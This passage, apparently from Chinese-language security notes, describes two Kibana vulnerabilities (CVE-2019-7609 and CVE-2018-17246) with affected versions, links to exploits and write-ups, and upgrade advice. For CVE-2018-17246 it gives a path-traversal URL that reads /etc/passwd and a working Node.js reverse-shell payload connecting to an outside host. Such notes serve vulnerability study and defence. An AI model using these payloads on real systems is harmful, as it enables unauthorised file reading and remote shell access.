     Kibana < 5.6.15
    
3.  检测方法
    
    文中给出了 POC
    
    https://dylan903.github.io/2019/10/20/kibana-rce-lou-dong-fu-xian/
    
4.  漏洞复现
    
    CVE-2019-7609 Kibana 远程代码执行漏洞攻击方法和漏洞原理分析
    
    https://cloud.tencent.com/developer/article/1535121
    
    CVE-2019-7609 Kibana 代码执行漏洞复现
    
    http://blog.leanote.com/post/snowming/2cd6256df61d
    
5.  漏洞利用
    
    jas502n/kibana-RCE
    
    https://github.com/jas502n/kibana-RCE
    
6.  坑点
    
    部署过程中如果出现 Kibana server is not ready yet, 那么你是需要确定下 你的 kibana 与 elasticsearch 版本是否一致
    
    es 要用非 root 用户启动，否则会报`can not run elasticsearch as root`错误。
    
7.  防御方法
    
    升级 Kibana 至新版本
    

### Kibana 漏洞 CVE-2018-17246

1.  漏洞简介
    
    此漏洞出现在 Kibana 控制台（Console）插件中，控制台插件是 KIbana 的基本插件，也就是 Kibana 必装的插件。当前 elastic 最新版本为 6.5，可以说大部分 elk 的组件会存在此问题，但是此问题利用难点在于如何创建一个恶意的本地文件。
    
2.  影响版本
    
    ElasticSearch Kibana < 6.4.3
    
    ElasticSearch Kibana < 5.6.13
    
3.  利用方法
    
    读文件操作
    
    http://192.168.1.3:5601/api/console/api\_server?sense\_version=%40%40SENSE\_VERSION&apis=../../../../../../../../../../../etc/passwd
    
    反弹 shell 在 kibana 的机器创建 /tmp/shell.js
    
    ```
    (function(){ var net = require("net"), cp = require("child\_process"), sh = cp.spawn("/bin/sh", \[\]); var client = new net.Socket(); client.connect(8080, "192.168.1.2", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; })();
    
    ```
    